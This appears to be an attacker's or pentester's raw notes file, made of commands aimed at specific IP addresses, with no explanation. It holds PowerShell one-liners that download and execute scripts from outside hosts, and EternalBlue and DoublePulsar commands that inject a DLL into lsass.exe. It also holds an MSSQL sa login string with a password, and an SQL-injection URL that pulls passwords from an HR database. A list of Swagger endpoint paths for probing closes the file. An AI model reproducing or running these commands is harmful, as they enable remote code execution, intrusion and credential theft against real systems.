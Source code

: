  ![image-20211218155216030](C:/Users/86151/AppData/Roaming/Typora/typora-user-images/image-20211218155216030.png)powershell.exe -nop -w hidden -c "IEX ((new-object net.webclient).downloadstring('http://119.3.217.40:666/a'))"

![image-20211218145318622](C:/Users/86151/AppData/Roaming/Typora/typora-user-images/image-20211218145318622.png)

![image-20211218023954871](C:/Users/86151/AppData/Roaming/Typora/typora-user-images/image-20211218023954871.png)

![image-20211218024002067](C:/Users/86151/AppData/Roaming/Typora/typora-user-images/image-20211218024002067.png)



~~~
Eternalblue-2.2.0.exe --InConfig Eternalblue-2.2.0.xml --TargetIp 210.36.17.105 --TargetPort 445
~~~

~~~
powershell.exe -nop -w hidden -c "IEX ((new-object net.webclient).downloadstring('http://119.3.217.40:2214/axcz'))"
~~~

```bash
Doublepulsar-1.3.1.exe --InConfig Doublepulsar-1.3.1.xml --TargetIp 210.36.17.1 --TargetPort 445 --Protocol SMB --Architecture x64 --Function RunDLL --DllPayload x64.dll --payloadDllOrdinal 1 --ProcessName lsass.exe --ProcessCommandLine "" --NetworkTimeout 60
```

~~~
120.24.194.57:4153/EternalPulse.zip
~~~

mssql://sa:123qwe!@#@210.36.22.3:1433/master

~~~
execute master..xp_dirtree 'c:\新建文件夹'
for /r c:\ %i in (*.aspx) do @echo %i
for /r c:\ %i in (index.htm) do @echo %i
~~~



~~~
powershell (new-object System.Net.WebClient).Downloadstring('http://120.24.194.57:4153/4.ps1','C:\4.ps1')
powershell -file 2.ps1
powershell  -c "IEX(New-Object Net.WebClient).DownloadString('http://120.24.194.57:4153/5.ps1')"
http://120.24.194.57:4153/5.ps1
~~~



![image-20211218145919204](C:/Users/86151/AppData/Roaming/Typora/typora-user-images/image-20211218145919204.png)

![LiVVjzRq](C:/Users/86151/Desktop/LiVVjzRq.jpeg)![MKuStskc](C:/Users/86151/Desktop/MKuStskc.jpeg)![image-20211218145925146](C:/Users/86151/AppData/Roaming/Typora/typora-user-images/image-20211218145925146.png)

![image-20211218151049964](C:/Users/86151/AppData/Roaming/Typora/typora-user-images/image-20211218151049964.png)

![image-20211218155220433](C:/Users/86151/AppData/Roaming/Typora/typora-user-images/image-20211218155220433.png)

 ~~~
 	F:\pay_tool\apache-activemq-5.14.5-bin\apache-activemq-5.14.5\bin\win64\..\..
 ~~~



~~~
http://210.36.26.22:8161/admin/test/systemProperties.jsp
~~~

~~~
https://210.36.19.33/KVMIP administrator password
~~~

~~~
http://210.36.22.10:8082/js/hrm/getdata.jsp?cmd=getSelectAllId&sql=select%20password%20as%20id%20from%20HrmResourceManager
~~~

![image-20211219215323350](C:/Users/86151/AppData/Roaming/Typora/typora-user-images/image-20211219215323350.png)

~~~
CCAD
~~~

~~~
cc596346-8514-4258-a3b2-882d4399f8ae
17d71424c8db6e-01d8ba147322f8-5919135e-144000-17d71424c8ebcb
~~~

~~~
/v2/api-docs
/swagger-ui.html
/swagger
api/swagger
Swagger/ui/index
api/swaggerui
swagger/ui
api/swagger/ui
api/swagger-ui.html
user/swagger-ui.html
libs/swaggerui
swagger/index.html
swagger-resources/configuration/ui
swagger-resources/configuration/security
api.html
druid/index.html
sw/swagger-ui.html
api/swagger-ui.html
template/swagger-ui.html
spring-security-rest/api/swagger-ui.html
spring-security-oauth-resource/swagger-ui.html
swagger/v1/swagger.json
swagger/v2/swagger.json
api-docs
api/doc
docs/
doc.html
v1/api-docs
v3/api-docs
~~~

mvn package -D skipTests


